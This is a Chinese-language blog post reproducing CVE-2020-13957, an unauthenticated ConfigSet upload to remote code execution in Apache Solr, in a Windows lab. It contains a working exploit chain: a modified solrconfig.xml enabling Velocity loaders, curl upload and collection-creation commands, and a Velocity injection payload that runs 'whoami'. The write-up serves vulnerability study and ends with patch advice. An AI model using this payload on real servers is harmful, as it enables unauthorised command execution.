




# CVE-2020-13957|Apache solr ConfigSet API 未授权上传（RCE） - Savior_only - 博客园

> 原文：[`www.cnblogs.com/Savior-cc/p/13907307.html`](https://www.cnblogs.com/Savior-cc/p/13907307.html)

# **写在前面：**

我看到网上很多人都是使用的 linux 系统复现，我使用的是 windows 系统复现

# **0x01 漏洞概述**

Apache Solr 发布公告，旧版本的 ConfigSet API 中存在未授权上传漏洞风险，被利用可能导致 RCE （远程代码执行）。

# **0x02 影响版本**

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

# **0x03 环境搭建**

## **1.****下载**
官方下载地址：[`archive.apache.org/dist/lucene/solr`](http://archive.apache.org/dist/lucene/solr)

## 本次漏洞复现下载影响范围内的 8.0.0，解压即用。

## **2.****启动**

该漏洞需要以 cloud 模式运行 Solr，同时 Solr-API 不能开启认证

Bin 目录下：

 1 .\solr start -e cloud #cloud 模式启动
 1 .\solr stop -all  #需要重启时可用该命令停止全部 solr 进程

出现以下界面说明启动成功

 



# **0x04 攻击准备**

## 1. **利用思路**

利用 UPLOAD 上传恶意配置->用恶意配置创建新的 collection->执行 RCE，由于 ConfigSet API 存在未授权上传漏洞，可以利用该漏洞实现远程代码执行。

## **2.****准备攻击配置文件并打包**

进入/solr-8.0.0/server/solr/configsets/sample_techproducts_configs/conf/目录下修改 solrconfig.xml 如下内容：

原配置内容：

```
1 <queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
2　　　　<str name="template.base.dir">${velocity.template.base.dir:}</str>
3 </queryResponseWriter>
```

修改后：

```
1 <queryResponseWriter name="velocity" class="solr.VelocityResponseWriter" startup="lazy">
2 　　<str name="template.base.dir">${velocity.template.base.dir:}</str>
3 　　<str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
4 　　<str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:true}</str>
5 </queryResponseWriter>
```

修改完成后在当前目录下打包即可：myconfig.zip

# **0x05****漏洞复现**

## **1.上传恶意配置，通过 UPLOAD 上传刚刚打包好的 myconfig.zip，并命名为 myconfignew**

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfig.zip "http://192.168.1.115:8983/solr/admin/configs?action=UPLOAD&name=myconfignew"

```

 

## **2.****创建 collection，利用刚刚上传并命名的 myconfignew 来 CREATE 一个新的 collection:mytestcollection**

```
Curl -v "http://192.168.1.115:8983/solr/admin/collections?action=CREATE&name=mytestcollection&numShards=2&replicationFactor=1&wt=xml&collection.configName=myconfignew"

```

 

## 3. **此时可以看到已经上传上去名为 mytestcollection 的 Collection**

## **现在就可以使用 CVE-20****20****-****13957****漏洞执行 RCE**

使用 burp

```
1 GET /solr/mytestcollection/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1
2 Host: 192.168.1.115:8983
3 Content-Type: application/json
4 Content-Length: 0
```

 

或者浏览器请求：

```
1 http://192.168.1.115:8983/solr/mytestcollection/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

所标位置是命令，linux 与 windows 不同，需要注意

 

# **0x06 修复建议**

升级到最新版本

[`archive.apache.org/dist/lucene/solr`](http://archive.apache.org/dist/lucene/solr)

**注：本实验不得用于商业用途,仅做学习交流，****如用作他途造成的****一切后果****请****自行承担****！**